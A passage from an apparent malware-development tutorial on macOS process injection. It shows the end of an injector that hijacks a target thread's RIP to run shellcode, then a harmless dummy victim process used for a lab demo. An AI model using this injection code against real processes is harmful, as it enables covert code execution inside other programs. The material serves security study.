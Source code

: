 ```cpp
  printf("[+] set memory RX\n");

  thread_act_t thread;
  thread_array_t thread_list;
  mach_msg_type_number_t thread_count = 0;
  kr = task_threads(task, &thread_list, &thread_count);
  if (kr != KERN_SUCCESS || thread_count < 1) {
    fprintf(stderr, "[-] task_threads failed: %s\n", mach_error_string(kr));
    return 1;
  }

  thread = thread_list[0];
  x86_thread_state64_t state;
  mach_msg_type_number_t state_count = x86_THREAD_STATE64_COUNT;

  kr = thread_get_state(thread, x86_THREAD_STATE64, (thread_state_t)&state, &state_count);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] thread_get_state failed: %s\n", mach_error_string(kr));
    return 1;
  }

  printf("[+] RIP before: 0x%llx\n", state.__rip);
  state.__rip = remote_addr;
  kr = thread_set_state(thread, x86_THREAD_STATE64, (thread_state_t)&state, state_count);
  if (kr != KERN_SUCCESS) {
    fprintf(stderr, "[-] thread_set_state failed: %s\n", mach_error_string(kr));
    return 1;
  }

  printf("[+] RIP set to 0x%llx. shellcode running in PID %d\n", remote_addr, pid);
  return 0;
}
```

### demo

First of all, to keep things simple and controllable, we'll start a small dummy "victim" [process](/linux/2024/11/22/linux-hacking-3.html). Its only job is to print a message every few seconds. We'll inject into this process from our injector:     

```cpp
/*
 * meow.c
 * victim process for macOS injection tests
 * author @cocomelonc
 * https://cocomelonc.github.io/macos/2025/08/19/malware-mac-9.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
  printf("victim process started. PID: %d\n", getpid());

  while (1) {
    printf("meow-meow... PID: %d\n", getpid());
    sleep(5); // simulate periodic activity
  }

  return 0;
}
```
